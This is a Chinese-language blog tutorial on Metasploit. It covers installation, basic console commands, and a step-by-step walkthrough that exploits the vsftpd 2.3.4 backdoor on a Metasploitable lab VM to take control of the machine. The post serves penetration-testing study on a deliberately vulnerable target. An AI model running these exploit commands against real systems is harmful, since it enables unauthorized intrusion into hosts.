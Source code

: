 ```yaml
---
title: Use metaspolit to check device vulnerability
date: 2019-2-26 08:00:00 +0800
categories: [ Security tools ]
tags: [ tools ]     # TAG names should always be lowercase
---
```


## 介紹
metaspolit 的名聲應該已經不用我來介紹了，如果不懂的請觀看他的[官方網站](https://www.metasploit.com/)

## 0x00 環境架設
大部份進行滲透測試的人員都會使用 kali 來當OS，因為他有豐富的滲透工具，
可以不用再自行安裝，不過其他版本的linux也是可以正常使用的
[下載教學](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers)

```
教學已經很簡要的把指令放在一起，linux 使用者可以直接執行下面這行，就會自動下載以及安奘

curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
chmod 755 msfinstall && \
./msfinstall
```
由於我只是因為一些研究需要用到這套工具沒有要使用其他工具，
因此我這邊使用的是ubuntu x86_64
https://www.tutorialspoint.com/metasploit/metasploit_discovery_scans.htm

### 架設 IOT 設備
架設的方式分成幾種
1. 直接拿實體機器跟你網路對連
2. 使用 firmware 模擬的技術，模擬出一種設備
    - 相關方式我會在別的 blog 中做介紹
3. 使用 metasploitable 來簡單架設環境

## 0x01 熟悉 metaspolit
我們可以輸入 help 來快速的觀看有哪些指令是可以使用的
```
msf5 > help
```
比較常用的
- **search** : Searches module names and descriptions
- **use** :  Selects a module by name
- **back** : Move back from the current context
- **exit** : Exit the console

之後有用到其他的再補

## 0x02 實際操作
### Class 1 metasploitable ftp expolit
首先輸入 msfconsole 進入操作界面

利用nmap -sV 去掃所有開port的 services 版本資訊
![](https://i.imgur.com/zNj75Sd.png)

上網查究可以發現 vsftpd 2.3.4 這個services 是存在著backdoor的

於是我們直接搜尋 metasploit 資料庫
```
search vsFTPd 2.3.4
```
會出現幾個資料庫選項，我們選擇下面這個
```
exploit/unix/ftp/vsftpd_234_backdoor
```
使用 use 指令來指定他
```
use exploit/unix/ftp/vsftpd_234_backdoor
```

輸入下面指令來顯示可以調整的參數
```
show options
```
![](https://i.imgur.com/HGlFE2T.png)

更改 RHOSTS 為 靶機ip位址
```
set RHOSTS 192.168.77.143
```
RPORT 維持是 21 port 即可

再來我們直接輸入 run，程式就會自動執行漏洞POC，完成後就可以得到機器控制權
![](https://i.imgur.com/UTcoZhT.png)

## tutorial
請參考 https://www.tutorialspoint.com/metasploit/metasploit_discovery_scans.htm

